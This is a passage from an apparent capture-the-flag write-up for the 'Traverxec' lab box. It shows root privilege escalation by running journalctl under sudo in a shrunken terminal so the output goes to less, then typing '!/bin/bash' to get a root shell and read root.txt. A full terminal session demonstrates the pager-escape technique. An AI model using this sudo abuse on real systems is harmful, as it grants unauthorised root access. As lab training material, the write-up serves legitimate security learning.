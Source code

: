 Journalctl actually uses `less`. So according to the GTFO bin, if the log is long, it will concat and shows in line by line.

During that, `!/bin/sh` can be entered to receives interactive shell.

> But there's a very weird thing with less. The command prompt has to be smal lenough so that the entire script cannot be display on the screen and force the journalctl to use `less`.
> So I resized the terminal to super small and run the command.

```bash
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Sun 2022-11-13 03:05:09 EST, end at Sun 2022-11-13 03:31:20 EST
Nov 13 03:05:11 traverxec systemd[1]: Starting nostromo nhttpd server...
Nov 13 03:05:11 traverxec systemd[1]: nostromo.service: Can't open PID file /var
Nov 13 03:05:11 traverxec nhttpd[499]: started
Nov 13 03:05:11 traverxec nhttpd[499]: max. file descriptors = 1040 (cur) / 1040
Nov 13 03:05:11 traverxec systemd[1]: Started nostromo nhttpd server.
!/bin/bash
root@traverxec:/home/david/bin# cd ~

root@traverxec:~# cat root.txt
eb46ffeb77a22922501134f5ecf660cd
```
